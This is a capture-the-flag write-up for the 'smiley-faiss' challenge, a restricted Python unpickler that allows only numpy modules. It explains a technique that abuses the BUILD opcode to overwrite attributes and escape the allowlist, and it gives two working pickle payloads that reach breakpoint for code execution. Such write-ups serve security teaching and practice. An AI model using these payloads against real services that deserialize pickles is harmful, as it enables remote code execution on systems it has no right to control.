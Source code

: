 # smiley-faiss

i am happy with how this challenge turned out because of the theming

## challenge

```
#!/usr/local/bin/python3
# slightly modified. original at https://github.com/facebookresearch/faiss/blob/main/contrib/rpc.py
import pickle
from io import BytesIO
import importlib

safe_modules = {
    'numpy',
    'numpy.core.multiarray',
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe modules.
        if "save" in name or "load" in name:
            return
        if module in safe_modules:
             import safernumpy
             import safernumpy.core.multiarray
             return getattr({"numpy": safernumpy, "numpy.core.multiarray": safernumpy.core.multiarray}[module], name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

if __name__ == "__main__":
    #RestrictedUnpickler(BytesIO().load()
    RestrictedUnpickler(BytesIO(bytes.fromhex(input(">")))).load()
```

see [./smiley-faiss.zip](./smiley-faiss.zip) for full

## solution

ok basically one trick is that if you have getattr but not _getattribute (with ".") on a specific object, if you can get an attribute of that object that can have its attributes overwritten, it is easy to get rce

by that i mean:

```
class Dummy: pass

outer = Dummy()
outer.inner = Dummy()
outer.inner.escape = {'woohoo': breakpoint}
```

if you can get `outer`, and you can get `outer.inner`, then you can build something like `{"inner": whatever}` on outer and then get `outer.inner` to get `whatever`

so basically if it was just an object and it had a dictionary attribute (e.g. `__builtins__`) with a valuable object (e.g. `breakpoint`), it is not possible without having this inner-outer setup

if it is permitted in find_class to do `getattr(outer, name)` and also `getattr(outer.inner, name)` then one can `getattr(outer, "inner")` to get inner and then abuse the BUILD
opcode, which allows for arbitrary setattr (you may see where this is going). so, by doing BUILD with slotstate and `getattr(outer.inner, "escape")`, then you can get the breakpoint function (in this example).

however, with this challenge, one has to do a double extension with numpy.core and then numpy.core.multiarray. this is not possible with the original importlib impl for some reason because it bypasses our overwriting of attributes (probably because it is importing the module again instead of using getattr)

so, a valid payload is 

```(GLOBAL + b"numpy\ncore\n" + NONE + MARK + UNICODE + b'multiarray\n' + GLOBAL + b'numpy\ncore\n' + DICT + TUPLE2 + BUILD + POP + GLOBAL + b'numpy\ncore\n' + NONE + GLOBAL + b'numpy\n__builtins__\n' + TUPLE2 + BUILD + GLOBAL + b'numpy.core.multiarray\nbreakpoint\n' + EMPTY_TUPLE + REDUCE + STOP).hex()```

there is also an unintended apparently that you can just build once and then it works (shoutout flocto)

(i forgot to ban arb getattr on the outer so you can just build `outer.__builtins__` onto `outer` and then get `outer.breakpoint` lol)

```
pkl = ( 
        GLOBAL + b"numpy\nsafernumpy\n" +
        MARK + 
            NONE + 
            GLOBAL + b"numpy\n__builtins__\n" + 
        TUPLE + 
        BUILD + 
        GLOBAL + b"numpy\nbreakpoint\n" + 
        EMPTY_TUPLE + 
        REDUCE +
       STOP
)
```
